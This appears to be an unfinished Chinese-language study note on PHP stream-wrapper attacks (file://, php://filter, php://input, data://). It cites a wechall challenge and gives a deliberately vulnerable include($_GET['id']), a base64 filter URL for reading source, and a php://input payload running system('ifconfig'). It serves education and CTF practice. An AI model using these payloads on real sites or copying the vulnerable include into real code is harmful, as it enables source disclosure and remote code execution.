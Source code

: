 #php伪协议安全小结（更新中）
>PHP 带有很多内置 URL 风格的封装协议，可用于类似 fopen()、 copy()、 file_exists() 和 filesize() 的文件系统函数。 除了这些封装协议，还能通过 stream_wrapper_register() 来注册自定义的封装协议。

1. **file:// — 访问本地文件系统**
这里以wechall上的challenge为例：
[http://www.wechall.net/challenge/crappyshare/index.php](http://www.wechall.net/challenge/crappyshare/index.php)
[http://www.wechall.net/challenge/crappyshare/index.php?show=code](http://www.wechall.net/challenge/crappyshare/index.php?show=code)
[http://www.wechall.net/challenge/crappyshare/crappyshare.php](http://www.wechall.net/challenge/crappyshare/crappyshare.php)
```php
<?php
function upload_please_by_url($url)
{ 
　　if (1 === preg_match('#^[a-z]{3,5}://#', $url)) # Is URL? 
　　{
　　　　$ch = curl_init($url);
　　　　curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
　　　　curl_setopt($ch, CURLOPT_FOLLOWLOCATION, true);
　　　　curl_setopt($ch, CURLOPT_FAILONERROR, true);
　　　　if (false === ($file_data = curl_exec($ch)))
　　　　{
　　　　　　htmlDisplayError('cURL failed.');
　　　　}
　　　　else
　　　　{
　　　　　　// Thanks
　　　　　　upload_please_thx($file_data);
　　　　}
　　}
　　else
　　{
　　　　htmlDisplayError('Your URL looks errorneous.');
　　}
}
function upload_please_thx($file_data)
{
        htmlTitleBox('Thank You For Uploading:', '<div class="thx_result">'.nl2br(htmlspecialchars(substr($file_data,0, 1024)).'</div>'));
}
?>
```
可以看出这里有允许url上传的函数，其判断是否为url的函数正中这种伪协议的下怀，从而达到越权访问文件
2. **php://filter -- 对本地磁盘文件进行读写**
```php
<?php include $_GET['id'];?>
```
国外的大触发现通过base64编码后就可以不进行文件包含的操作，而是将文件编码后的内容打印出来
```url
http://127.0.0.1/test/phpfilter/index.php?id=php://filter/read=convert.base64-encode/resource=index.php
```
p师傅对这条伪协议在xxe读php等文件和写webshell时绕过死亡exit时，有着独到的见解，非常吊-[https://www.leavesongs.com/PENETRATION/php-filter-magic.html](https://www.leavesongs.com/PENETRATION/php-filter-magic.html)
写入文件
```php
<?php
　　/* 这会通过 rot13 过滤器筛选出字符 "Hello World"
　　然后写入当前目录下的 example.txt */
　　file_put_contents("php://filter/write=string.rot13/resource=example.txt","Hello World");
?>
```

3. **php:// — 访问各个输入/输出流(I/O streams)**
**php://input 是个可以访问请求的原始数据的只读流(这个原始数据指的是POST数据)**
allow_url_include需设置为on
```php
http://127.0.0.1/test/phpfilter/index.php?id=php://input
<?php system('ifconfig');?>
```
这样可以执行我们的php代码并返回了
更多其他的留可以参考[http://www.cnblogs.com/LittleHann/p/3665062.html](http://www.cnblogs.com/LittleHann/p/3665062.html)

4. **data://伪协议**
这是一种数据流封装器，data:URI schema(URL schema可以是很多形式)
利用data://伪协议进行代码执行的思路原理和php://是类似的，都是利用了PHP中的流的概念，将原本的include的文件流重定向到了用户可控制的输入流中

**参考**：文中出现的外链都是
有点乱，还在更新中
?,00截断条件php小于5.3.4
magic_quotes_gpc off